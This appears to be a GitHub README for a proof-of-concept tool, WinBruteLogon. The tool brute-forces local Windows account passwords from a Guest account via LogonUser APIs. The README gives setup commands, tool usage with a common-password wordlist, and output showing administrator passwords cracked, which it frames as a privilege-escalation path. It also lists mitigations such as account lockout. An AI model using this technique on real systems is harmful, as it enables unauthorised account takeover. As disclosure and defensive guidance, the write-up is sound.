 # Win Brute Logon (Proof Of Concept)

Release date: `2020-05-14`

Target: Windows XP to Latest Windows 10 Version (1909)

![Console](https://i.ibb.co/Cm5052S/screen.png)

Weakness location : `LogonUserA`, `LogonUserW`, `CreateProcessWithLogonA`, `CreateProcessWithLogonW`

# Introduction

This PoC is more what I would call a serious weakness in Microsoft Windows Authentication mechanism than a vulnerability.

The biggest issue is related to the lack of privilege required to perform such actions.

Indeed, from a Guest account (The most limited account on Microsoft Windows), you can crack the password of any available local users.

Find out which users exists using command : `net user`

This PoC is using multithreading to speed up the process and support both 32 and 64bit.

# PoC Test Scenario

Tested on Windows 10 

Install and configure a freshly updated Windows 10 virtual or physical machine.

In my case full Windows version was : `1909 (OS Build 18363.778)`

Log as administrator and lets create two different accounts : one administrator and one regular user. Both users are local.

## Create a new admin user

`net user darkcodersc /add`

`net user darkcodersc trousers` (trousers is the password)

`net localgroup administrators darkcodersc /add`

## Create a regular user

`net user HackMe /add`

`net user HackMe ozlq6qwm` (ozlq6qwm is the password)

## Create a Guest account (If not already activated)

`net user Guest /add /active:yes`

`net localgroup users Guest /delete`

`net user Guest /add /active:yes`

## Get a Wordlist 

In my case both `trousers` and `ozlq6qwm` are in SecList : https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10k-most-common.txt

## Start the attack

Logoff from administrator account or restart your machine and log to the Guest account. 

Place the PoC executable anywhere you have access as Guest user.

Usage : `WinBruteLogon.exe -v -u <username> -w <wordlist_file>`

`-v` is optional, it design the verbose mode.

By default, domain name is the value designated by `%USERDOMAIN%` env var. You can specify a custom name with option `-d`

### Crack First User : `darkcodersc` (Administrator)

prompt(guest)>`WinBruteLogon.exe -v -u darkcodersc -w 10k-most-common.txt`

Wait few seconds to see the following result:

````
[ .. ] Load 10k-most-common.txt file in memory...
[DONE] 10002 passwords successfully loaded.
[INFO] 2 cores are available
[ .. ] Create 2 threads...
[INFO] New "TWorker" Thread created with id=2260, handle=364
[INFO] New "TWorker" Thread created with id=3712, handle=532
[DONE] Done.
[ OK ] Password for username=[darkcodersc] and domain=[DESKTOP-0885FP1] found = [trousers]
[ .. ] Finalize and close worker threads...
[INFO] "TWorkers"(id=2260, handle=364) Thread successfully terminated.
[INFO] "TWorkers"(id=3712, handle=532) Thread successfully terminated.
[DONE] Done.
[INFO] Ellapsed Time : 00:00:06
````

### Crack Second User : `HackMe` (Regular User)

prompt(guest)>`WinBruteLogon.exe -v -u HackMe -w 10k-most-common.txt`

Wait few seconds to see the following result:

````
[ .. ] Load 10k-most-common.txt file in memory...
[DONE] 10002 passwords successfully loaded.
[INFO] 2 cores are available
[ .. ] Create 2 threads...
[INFO] New "TWorker" Thread created with id=5748, handle=336
[INFO] New "TWorker" Thread created with id=4948, handle=140
[DONE] Done.
[ OK ] Password for username=[HackMe] and domain=[DESKTOP-0885FP1] found = [ozlq6qwm]
[ .. ] Finalize and close worker threads...
[INFO] "TWorkers"(id=5748, handle=336) Thread successfully terminated.
[INFO] "TWorkers"(id=4948, handle=140) Thread successfully terminated.
[DONE] Done.
[INFO] Ellapsed Time : 00:00:06
````

# Real world scenario

If you gain access to a low privileged user, you could crack the password of a more privileged user and escalate your privilege.

# Mitigation (General)

- Disable guest account if it is not absolutely required.
- Application white-listing.
- Follow the guidelines to create and keep a password strong. Apply this to all users.

## Implement Security Lockout Policy (Not present by default)

Open `secpol.msc` then go to `Account Policies` > `Account Lockout Policy` and edit value `Account lockout threshold` with desired value from (1 to 999).

Value represent the number of possible attempt before getting locked.

# Weakness Report

A report was sent to Microsoft Security Team.

They should at least implement by default account lockout. Actually it is not.

